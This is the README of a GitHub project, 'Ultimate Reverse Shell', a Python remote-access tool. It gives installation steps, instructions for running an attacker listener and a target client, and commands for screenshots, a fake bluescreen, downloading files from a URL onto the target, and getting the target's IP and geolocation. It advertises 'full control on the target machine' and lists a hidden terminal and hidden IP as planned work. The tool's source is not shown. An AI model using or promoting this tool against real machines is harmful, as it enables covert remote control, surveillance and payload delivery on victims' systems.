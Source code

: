 # Ultimate Reverse Shell #

Reverse shell implementation using Python.
<br/><br/>


## Installation ##
**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/ult_reverse_shell

# change the working directory to reverse shell
$ cd ult_reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage ##
### 1. Listen for target ###
On attacker machine, run the `attacker.py` script.
```
python3 attacker.py [port]
```

### 2. Execute reverse shell ###
On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```


## Commands ##
```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```


## Features ##
### Implemented ###
* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented ###
* Packet encoder/decoder.


## TODOs ##
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
